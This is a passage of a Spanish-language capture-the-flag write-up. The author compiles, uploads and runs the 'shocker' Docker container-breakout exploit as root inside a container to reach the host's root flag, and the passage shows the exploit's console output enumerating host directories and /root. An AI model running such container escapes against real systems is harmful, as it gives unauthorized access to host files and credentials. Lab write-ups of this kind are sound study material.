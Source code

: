 ¡Y perfecto!

Ahora podríamos modificar el archivo que intenta abrir el script, para ver la flag de superusuario.
![Write-up Image](images/Screenshot_29.png)

Compilamos el binario, lo subimos, lo ejecutamos y...

```shell
(remote) root@c150397ccd63:/tmp# ./shocker 
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'root/root.txt'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[*] Found lib
[*] Found libx32
[*] Found cdrom
[*] Found root
[+] Match: root ino=18
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'root.txt'
[*] Found ..
[*] Found .backup
[*] Found .config
[*] Found .cache
[*] Found .local
[*] Found .ssh
[*] Found .
[*] Found .profile
[*] Found .bashrc
```